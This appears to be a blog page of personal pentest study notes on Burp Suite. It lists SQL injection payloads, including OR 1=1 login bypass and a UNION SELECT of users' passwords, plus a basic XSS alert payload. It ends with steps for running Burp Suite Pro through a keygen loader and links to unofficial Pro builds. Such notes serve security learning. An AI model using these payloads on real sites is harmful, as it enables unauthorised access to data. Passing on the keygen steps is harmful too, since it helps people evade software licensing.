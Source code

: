```yaml
---
title: Meow's Testing Tools - Burpsuite
date: 2019-09-17 11:11:11 -0400
categories: [CyberAttack, CyberAttackTools]
tags: [CyberAttack, CyberAttackTools]
toc: true
image:
---
```


[toc]

---

# Burpsuite

---

test web: `www.dvwa.co.uk`

---

## Testing workflow

![burp-workflow](https://i.imgur.com/IlK1tx3.jpg)


---


## SQL injection


![Screen Shot 2020-11-18 at 12.29.51](https://i.imgur.com/XqX9weI.png)

`UPDATE, INSERT, SELECT, ORDER BY` 

1. retrieve hidden data:
   1. input: Gifts
   2. `http://web/products?category=Gifts`
   3. `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
   4. input: Gifts'--
   5. `http://web/products?category=Gifts'--`
   6. `SELECT * FROM products WHERE category = 'Gifts'`--' AND released = 1
   7. input: Gifts`'+OR+1=1--`
   8. `http://web/products?category=Gifts'+OR+1=1--`
   9. `SELECT * FROM products WHERE category = 'Gifts' OR 1=1`--' AND released = 1
2. subverting application logic
   1. `GET /web3/login/?id=1&Submit=Submit HTTP/1.1`
   2. `GET /web3/login/?id=1'OR 1=1 #`&Submit=Submit `HTTP/1.1`
   3. `GET /web3/login/?id=1'+OR+1+%3d+1+%23&`Submit=Submit `HTTP/1.1`
   4. input: admin 12345
   5. `SELECT * FROM user WHERE username = 'admin' AND password = '12345'`
   6. input: admin'-- 
   7. `SELECT * FROM user WHERE username = 'admin'`--' AND password = '12345'
3. retrieve data from other database tables
   1. input: Gifts
   2. `SELECT name, description FROM products WHERE category = 'Gifts'`
   3. input: Gifts' UNION SELECT username, password From users--
   4. `SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password From users`--
4. examining the database
   1. oracle: `SELECT * FROM v$version`
   2. list the table and database: `SELECT * FROM information_schema.tables`
5. blind SQL injection vulnerabilities


detecting SQL injection vulnerabilities: use scanner


[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

lab:

```
https://abc.net/filter?category=Lifestyle' UNION SELECT NULL,NULL,NULL--  


```


---

## XSS Exploitation

1. execute payload as `<script>alert(“hello”)</script>`


# install burpsuite


[file](https://drive.google.com/drive/folders/1YKAeBIXPeUFW78buqRlJ9Yg1Ln6W2f1R)

```bash
# Install homebrew

rm -rf /Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk

# Tap homebrew/cask-versions
brew tap homebrew/cask-versions

# install java8:
brew cask install adoptopenjdk8

# Check if java8 is successfully installed or not
/usr/libexec/java_home -verbose

# cd to the file
cd /Applications/Burp\ Suite\ Community\ Edition.app/Contents/java/app

# Window1:
/Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk/Contents/Home/bin/java -jar burp-loader-keygen-2_1_07.jar

-jar burp-loader-keygen.jar

# add file
-Xbootclasspath/p:burp-loader-keygen-2_1_07.jar

# Window2:
/Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk/Contents/Home/bin/java -jar burpsuite_pro_v2.1.07.jar

/Library/Java/JavaVirtualMachines/liberica-jdk-8.jdk/Contents/Home/bin/java -jar burpsuite_pro_v1.7.31


# Create a Bash Alias
# If you are missing a .bash_profile
burp2.1()
{
/Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk/Contents/Home/bin/java -jar /Applications/Burp\ Suite\ Community\ Edition.app/Contents/java/app/burpsuite_pro_v2.1.07.jar
}

# Run
source ~/.bash_profile
# or
source ~/.zshrc

# Now you can type burp2.1 in terminal to open Burp Suite directly
```

[link](https://www.cnblogs.com/shaosks/p/13367761.html)
[link](https://github.com/raystyle/BurpSuite_Pro_v1.7.32)
[link](https://resources.infosecinstitute.com/burpsuite-tutorial/)






.
